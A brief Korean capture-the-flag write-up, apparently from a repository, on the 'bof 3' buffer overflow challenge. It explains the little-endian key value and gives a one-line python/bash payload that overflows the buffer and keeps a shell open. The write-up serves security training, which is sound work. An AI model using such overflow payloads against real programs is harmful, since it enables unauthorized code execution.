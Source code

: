# bof 3

기존의 문제와 별반 차이 없어 보이지만 잘 보면 key 값이 다르다.

![차이점](./img/bof3.PNG)

기존의 키값은 0x61616161 이었으나 이번에는 0x00000061인 셈이다. 주의해야 할 것은 little-endian 방식이다. 따라서 0x61000000 식으로 입력해줘야 원하는 결과를 얻을 수 있을 것이다. 

터미널에 입력해야 하는 명령은 다음과 같다.

``` bash
$ (python -c 'print "a"*140+"\x61\x00\x00\x00"'; cat | ./bof3 )
```

